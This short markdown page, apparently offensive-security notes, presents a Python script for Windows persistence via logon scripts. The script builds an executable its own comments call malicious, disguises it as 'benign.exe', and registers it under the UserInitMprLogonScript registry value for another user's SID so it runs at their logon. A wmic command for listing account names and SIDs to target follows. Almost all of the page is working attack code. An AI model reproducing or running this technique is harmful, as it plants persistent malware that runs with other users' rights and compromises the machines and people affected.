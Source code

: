 # **Logon scripts**

### Can be used for privilege escalation and mentanig presectance

```python
import os, shutil, winreg

filedir = os.path.join(os.getcwd(),"Temp")
filename = "benign.exe"
filepath = os.path.join(filedir,filename)

if os.path.isfile(filepath):
    os.remove(filepath)

# Use BuildExe to create malicious executable
os.system("python BuildExe.py")

# Move malicious executable to desired directory
shutil.move(filename,filedir)

# Windows logon script keys
#reghive = winreg.HKEY_CURRENT_USER
#regpath = "Environment"

reghive = winreg.HKEY_USERS
regpath = "S-1-5-21-524849353-310586374-791561826-1002\Environment"

# Add registry logon script
reg = winreg.ConnectRegistry(None,reghive)
key = winreg.OpenKey(reg,regpath,0,access=winreg.KEY_WRITE)
winreg.SetValueEx(key,"UserInitMprLogonScript",0,winreg.REG_SZ,filepath)
```

### To the users of windows system [names & sids]

```
wmic useraccount get name,sid
```
